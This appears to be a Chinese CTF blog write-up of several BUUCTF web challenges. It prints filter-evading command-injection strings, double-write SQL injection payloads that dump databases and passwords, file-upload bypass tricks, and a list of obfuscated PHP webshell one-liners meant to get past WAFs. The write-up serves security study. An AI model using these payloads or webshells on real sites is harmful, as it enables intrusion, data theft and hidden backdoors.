

[GXYCTF2019]Ping Ping Ping
最近回归CTF，但是PTA也是会继续更新，加油冲！
这两天断更的原因是跟小伙伴们一起去打了CyberCTF，菜鸡的团队也能打进60，真的是很高兴了，虽然是几个小伙伴一起组建的hhh
考点
基础之管道命令
1.命令执行—变量拼接
2.内联执行–反引号的作用
解题
先一看题，是ping ip的
跟之前的比赛类似
直接看里面有啥
?127.0.0.1|ls用管道命令
发现里面有两个文档
一个flag.php，一个index.php
试着继续用管道命令cat flag.php
接着就回显
/?ip= fxck your space!告知我空格被ban了
但是这粗暴的语言恶心到我了（就是玻璃心）
努力干掉这道题
绕过空格的方法
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
<
<>
{cat,flag.php} //用逗号实现了空格功能
%20
%09 ——Linux命令绕过
继续解题
发现使用$IFS$1可以绕过
接着发现{、flag都被ban了
绕过了空格，试试读取index.php，waf了啥
index.php源码如下：
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
die("fxck your symbol!");
} else if(preg_match("/ /", $ip)){
die("fxck your space!");
} else if(preg_match("/bash/", $ip)){
die("fxck your bash!");
} else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
die("fxck your flag!");
}
$a = shell_exec("ping -c 4 ".$ip);
echo "
";
print_r($a);
}
?>发现过滤了一堆东西：
1.过滤了bash/空格/包括*等一系列标点
2.flag被贪婪匹配了….
那么就使用内联执行了
?ip=127.0.0.1;cat$IFS$9`ls`接着因为不回显，查看源码即可
内联执行
将反引号内的命令执行之后的输出作为下一个命令的内容
即：ls执行之后给出的flag.php和index.php
接着外面的cat与里面的两个文件分别执行
cat flag.php
其他做法
变量拼接
变量$a可以进行覆盖
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
据说官方的办法：
过滤bash?那就用sh。sh的大部分脚本都可以在bash下运行。
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh但是我没测试出来
总结
学会了变量拼接和内联执行两种方法
${IFS},$IFS,$IFS$9的区别，首先$IFS在linux下表示分隔符，只有cat$IFSa.txt的时候,bash解释器会把整个IFSa当做变量名，所以导致没有办法运行，然而如果加一个{}就固定了变量名，同理在后面加个$可以起到截断的作用，而$9指的是当前系统shell进程的第九个参数的持有者，就是一个空字符串，因此$9相当于没有加东西，等于做了一个前后隔离。
参考
https://www.cnblogs.com/wangtanzhi/p/12246386.html
https://www.cnblogs.com/-chenxs/p/11978488.html
https://www.jianshu.com/p/c7768b157df2
[极客大挑战 2019]Knife
解题
这道题没啥知识点，就是简单的遇菜刀不决，蚁剑解决
直接解决
然后就直接用终端cat flag即可

[极客大挑战 2019]Http
考点
难度：水题
HTTP的一些考点
解题
1.F12->Secret.php
2.（提示不是来自https://www.Sycsecret.com）Referer的修改
3.（提示用Syclover 浏览器）User-Agent协议来伪造
4.（提示要本地登录）XFF头进行伪造
由于太简单了
此题无…..其他总结
[极客大挑战 2019]BabySQL
考点
sql注入之双写绕过
难度=“低”
解题
1.首先试试万能密码，什么密码都试试fuzz一下
2.发现union select or from 这几个全部被替换成空了
3.双写绕过
4.后面其他的几项也被过滤了
where imformation 也要双写
payload如下
1.
admin
1' ununionion seselectlect 1,2,3#
2.
admin
1' ununionion seselectlect 1,2,version() # //查看mariadb的version
3.
admin
1' ununionion seselectlect 1,2,database() # //爆库
4.
admin
1' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) # //爆出所有数据库的名字
5.
admin
1' ununionion seselectlect 1,2,group_concat(distinct table_name) frfromom infoorrmation_schema.columns whwhereere table_schema = 'geek'# //爆出geek库的所有表
6.
admin
1' ununionion seselectlect 1,2,group_concat(distinct column_name) frfromom infoorrmation_schema.columns whwhereere table_name = 'b4bsql'# //爆出b4sql的所有列
7.
admin
1' ununionion seselectlect 1,2,group_concat(id,0x3a,username,0x3a,passwoorrd) frofromm b4bsql# //爆b4sql的所有字段
8.其他
查询数据
1'uniunionon selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql#总结
我本身对sql注入不是很偏向的，但是这学期上了数据库的课，因为老师很好就觉得还是应该要好好的学学，因此就对这题的一些函数用法还是好好的百（gu）度（ge）一下
一、concat()函数
1、功能：将多个字符串连接成一个字符串。
2、语法：concat(str1, str2,…)
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
二、concat_ws()函数
1、功能：和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符～（concat_ws就是concat with separator）
2、语法：concat_ws(separator, str1, str2, …)
说明：第一个参数指定分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null。
三、group_concat()函数
前言：在有group by的查询语句中，select指定的字段要么就包含在group by语句的后面，作为分组的依据，要么就包含在聚合函数中。
1、功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
2、语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator ‘分隔符’] )
说明：通过使用distinct可以排除重复值；如果希望对结果中的值进行排序，可以使用order by子句；separator是一个字符串值，缺省为一个逗号。
其他：
1.用了group_concat后，select 里如果使用了 limit 是不起作用的
2.用group_concat连接字段的时候是有长度限制的，并不是有多少连多少。但你可以设置一下。
3.使用group_concat_max_len系统变量，你可以设置允许的最大长度。
4.系统默认的分隔符是逗号
参考
https://www.jianshu.com/p/9b2522af7460
https://blog.csdn.net/weixin_43900387/article/details/104919160
https://baijiahao.baidu.com/s?id=1595349117525189591&wfr=spider&for=pc
https://www.cnblogs.com/llq1214/p/11202866.html
[极客大挑战 2019]Upload
考点
文件上传绕过之前端js验证、mime检查、黑名单验证
解题
1.得是静态图片
2.bp改mime类型Content-Type: image/jpg
3.后缀修改:php之类的进行fuzz测试，phtml可行
4.一句话木马的变形
GIF89a <script language="php">eval($_POST['123']);</script>
这个地方很迷幻，只有gif图的文件头可以….jpg的不行
然后进入upload下的该文件
跟之前那道菜刀题一样，这里不叙述了
总结
1.终端是个好用的东西
文件上传漏洞和绕过
1.js验证： 禁用js或者用bp抓包修改后缀
更多绕过技巧：
在一些 webserver 中，存在解析漏洞
1.老版本的IIS中的目录解析漏洞，如果网站目录中有一个 /.asp/目录，那么此目录下面的一切内容都会被当作asp脚本来解析
2.老板本的IIS中的分号漏洞：IIS在解析文件名的时候可能将分号后面的内容丢弃，那么我们可以在上传的时候给后面加入分号内容来避免黑名单过滤，如 a.asp;jpg
3.旧版Windows Server中存在空格和dot漏洞类似于 a.php. 和 a.php[空格] 这样的文件名存储后会被windows去掉点和空格，从而使得加上这两个东西可以突破过滤，成功上传，并且被当作php代码来执行
4.nginx空字节漏洞 xxx.jpg%00.php 这样的文件名会被解析为php代码运行
5.apache的解析漏洞，上传如a.php.rar a.php.gif 类型的文件名，可以避免对于php文件的过滤机制，但是由于apache在解析文件名的时候是从右向左读，如果遇到不能识别的扩展名则跳过，rar等扩展名是apache不能识别的，因此就会直接将类型识别为php，从而达到了注入php代码的目的
2.MIme类型验证：bp抓包修改Content-type
Content-Type: image/jpg
Content-Type: image/png
Content-Type: image/jpeg
Content-Type: image/gif
常用的MIMETYPE表
text/plain（纯文本）
text/html（HTML文档）
text/javascript（js代码）
application/xhtml+xml（XHTML文档）
image/gif（GIF图像）
image/jpeg（JPEG图像）
image/png（PNG图像）
video/mpeg（MPEG动画）
application/octet-stream（二进制数据）
application/pdf（PDF文档）
application/(编程语言) 该种语言的代码
application/msword（Microsoft Word文件）
message/rfc822（RFC 822形式）
multipart/alternative（HTML邮件的HTML形式和纯文本形式，相同内容使用不同形式表示）
application/x-www-form-urlencoded（POST方法提交的表单）
multipart/form-data（POST提交时伴随文件上传的表单）
3.黑名单验证：
（1）fuzz测试：phtml php3 php4 php5 PHP phtm
前提：httpd.conf配置文件中服务器支持将以上后缀解析为php脚本
（2）大小写绕过：例如Php，PHp之类的
但如果有strtolower()将后缀全部变成小写，此方法可抛弃
4.检查文件内容
（1）getimagesize()函数
用于获取图像信息
使用winhex或者010等等在图片后面加上一句话木马即可
（2）检测关键字
变换版本的一句话木马
例如：<script language="php">eval($_POST['cmd']);</script>
幻数的头字节，我们来看一下几种图片文件的幻数：
（注意！下面是二进制而不是文本格式的数据）
JPG
FF D8 FF E0 00 10 4A 46 49 46GIF(相当于文本的GIF89a)
47 49 46 38 39 61PNG
89 50 4E 47通过检查头几位字节，可以分辨是否是图片文件
如果是其他类型的二进制文件，也有响应的头字节，如下表
格式 文件头
TIFF (tif) 49492A00
Windows Bitmap (bmp) 424D
CAD (dwg) 41433130
Adobe Photoshop (psd) 38425053
Rich Text Format (rtf) 7B5C727466
MS Word/Excel (xls.or.doc) D0CF11E0
MS Access (mdb) 5374616E64617264204A
ZIP Archive (zip)， 504B0304
RAR Archive (rar)， 52617221
Wave (wav)， 57415645
AVI (avi)， 41564920
Real Media (rm)， 2E524D46
MPEG (mpg)， 000001BA
MPEG (mpg)， 000001B3
Quicktime (mov)， 6D6F6F76
Adobe Acrobat (pdf)， 255044462D312E
Windows Media (asf)， 3026B2758E66CF11
MIDI (mid)， 4D546864
5.%00截断–>在bp包里面修改
主要是nginx的漏洞
Nginx 解析漏洞
解析- 任意文件名/任意文件名.php | 任意文件名%00.php
描述- 目前Nginx 主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。还有一种是对低版本的Nginx 可以在任意文件名后面添加%00.php 进行解析攻击。
6.
.htaccess上传
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>.user.ini上传
GIF89a
auto_prepend_file=a.jpg–>2020年de1ctf的一道web签到题
一句话木马
一句话木马就是只需要一行代码的木马，短短一行代码，就能做到和大马相当的功能。为了绕过waf的检测，一句话木马出现了无数中变形，但本质是不变的：木马的函数执行了我们发送的命令。
<?php eval(@$_POST['a']); ?>到PHP5之后的assert函数被修改了，不常用了
<?php assert(@$_POST['a']); ?>create_function函数
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>把用户传递的数据生成一个函数fun()，然后再执行fun()
PHP可变变量
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>str_replace函数
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>函数功能：在第三个参数中，查找第一个参数，并替换成第二个参数。这里第二个参数为空字符串，就相当于删除”Waldo”。
base64_decode函数
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>这里是base64解密函数，”ZXZhbA==”是eval的base64加密。
“.”操作符
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>parse_str函数
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>执行这个函数后，生成一个变量$a，值为字符串”eval”
其他：
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>创建函数 fun()，返回post中“a”的数据（安全狗却扫不出，D盾也是）
以及其他函数化用
实战+谷歌` 上述六种技巧每一种单独使用都不能绕过waf，但是与 第三大点提到的函数混合起来使用，就可以顺利的欺骗waf。 tips：使用一句话木马的时候可以在函数前加”@”符，这个符号让php语句不显示错误信息，增加隐蔽性。
参考
https://blog.csdn.net/weixin_30566063/article/details/99558838
https://xi4or0uji.github.io/2019/07/10/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%B1%87%E6%80%BB/
https://www.jianshu.com/p/90473b8e6667
https://blog.csdn.net/Wu000999/article/details/101796673